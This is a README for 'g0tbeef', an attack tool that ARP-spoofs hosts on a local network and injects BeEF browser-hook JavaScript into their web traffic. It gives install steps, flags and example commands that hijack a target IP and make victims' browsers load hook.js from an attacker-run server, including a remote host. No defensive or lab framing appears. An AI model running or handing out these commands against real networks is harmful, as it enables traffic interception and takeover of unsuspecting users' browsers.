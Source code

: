 g0tbeef
==========

Arp Spoof and inject beef hook in seconds

Installation:
=======

Run 'make install' in the g0tbeef directory. g0tbeef can now be run from anywhere with 'g0tbeef'.

Usage:
=======

	g0tbeef - Inject Beef hooks into html responses via ARP spoofing

	Usage:  g0tbeef <options>

			-t <ip>   ~  ip extension to target
			-r <ip>   ~  remote beef server
			-p <port> ~  port of beef server
			-e        ~  external ip address for beef server

	Examples:
		g0tbeef -t 2								
		  ~  Attack 192.168.0.2 beef hook: 192.168.0.11:3000/hook.js
		  
		g0tbeef -r googlebeefhook.com -p 80	
		  ~  beef hook: http://googlebeefhook.com:80/hook.js
